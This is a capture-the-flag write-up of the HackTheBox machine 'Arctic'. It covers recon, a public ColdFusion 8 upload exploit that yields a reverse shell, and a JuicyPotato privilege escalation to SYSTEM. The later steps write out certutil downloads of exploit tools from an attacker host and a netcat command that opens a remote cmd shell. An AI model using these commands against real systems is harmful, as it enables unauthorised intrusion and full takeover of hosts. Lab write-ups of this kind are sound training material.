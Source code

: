 # Arctic [HTB](https://app.hackthebox.com/machines/Arctic)
![arctic-01](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Arctic/img/arctic-01.png)


## recon 

Lets add an entry to `/etc/hosts` for this box: 

![hosts-02](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Arctic/img/hosts-02.png)


Now we can start enumerating with nmap:

`nmap -sC -sV -A -p- acrtic.htb -oN nmap.result`

![nmap-res-03](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Arctic/img/nmap-res-03.png)

We have the following:

+ An RPC endpoint mapper on port 135, and another RPC related port on 49154.
+ A JRun HTTP server on port 8500.


Lets go check the site. 


### HTTP 8500


If we open our browser and navigate towards `http://arctic.htb:8500`:

![site-04](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Arctic/img/site-04.png)

We can see we have two folders. If go into the first folder, we can see an `adminstrator` folder:

![admin-folder-05](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Arctic/img/admin-folder-05.png)

Which leads to an admin portal:

![admin-portal-06](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Arctic/img/admin-portal-06.png)

We can see this tech is Adobe ColdFusion 8. 

ColdFusion Markup Language is an interpreted language utilizing a Java backend. It allows direct 
access to Java via its cfscript tags, while simultaneously offering a simple web wrapper. 
It is vulnerable to a variety of attacks, but mainly Local File Disclosure (LFD) and SQL injection. 

If we search ColdFusion 8 on google, we can quickly find a [public exploit](https://www.exploit-db.com/exploits/50057): 

![exploit-db-07](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Arctic/img/exploit-db-07.png)


Apperatnly there is an upload file feature on the application in:

`/CFIDE/scripts/ajax/FCKeditor/editor/filemanager/connectors/cfm/upload.cfm`


The exploit generates a `java/jsp_shell_reverse_tcp` payload using `msfvenom`, and saves it to a file.
Then, it sends the file to the server in a specific form. Finally it navigates to the reverse shell's
location to execute it while setting up a listener. Lets try it out. 

After downloading it, make sure to update your lhost/rhost information in the exploit:

![edit-exploit-08](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Arctic/img/edit-exploit-08.png)

We should be good to go, lets execute with:

`python3 rce_exploit.py`

![execute-09](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Arctic/img/execute-09.png)


At the end you should get a shell:

![shell-10](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Arctic/img/shell-10.png)



## Privilege Escalation


Lets run `systeminfo` on our tagret:

![sysinfo-11](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Arctic/img/sysinfo-11.png)


We can see the target is a:

+ Windows 2008 R2 server standard.  
+ 6.1.7600 N/A Build 7600
+ X64 arhc 

After Following [sushant747](https://sushant747.gitbooks.io/total-oscp-guide/content/privilege_escalation_windows.html) checklist for a bit, i found nothing meaningful. 

I also tried running [windows-exploit-suggester](https://github.com/AonCyberLabs/Windows-Exploit-Suggester) but without success.

So i decided to look at our user's privileges with `whoami  /priv`:

![privs-12](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Arctic/img/privs-12.png)


Looks like we have `SeImpersonatePrivilege` enabled. We might be able to expoit this with a [potato attack](https://foxglovesecurity.com/2016/09/26/rotten-potato-privilege-escalation-from-service-accounts-to-system/). 

+ Download the exploit from [here](https://github.com/ohpe/juicy-potato/releases).

+ Host the exploit to the target by starting a python server with:

`python3 -m http.server 80`

+ Transfer the exploit to the target with:

`certutil -urlcache -f http://10.10.14.20/JuicyPotato.exe potato.exe`

+ Tranfer a copy of `/usr/share/windows-resources/binaries/nc.exe` to the target as well. 

`certutil -urlcache -f http://10.10.14.20/nc.exe nc.exe`

+ Set up the local listener: 

`nc -lnvp 9009`

+ Execute `potato.exe -l 9009 -p C:\windows\system32\cmd.exe -a "/c c:\\Users\tolis\nc.exe -e cmd.
exe 10.10.14.20 9009" -t *`

+ Get system: 

![root-13](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Arctic/img/root-13.png)

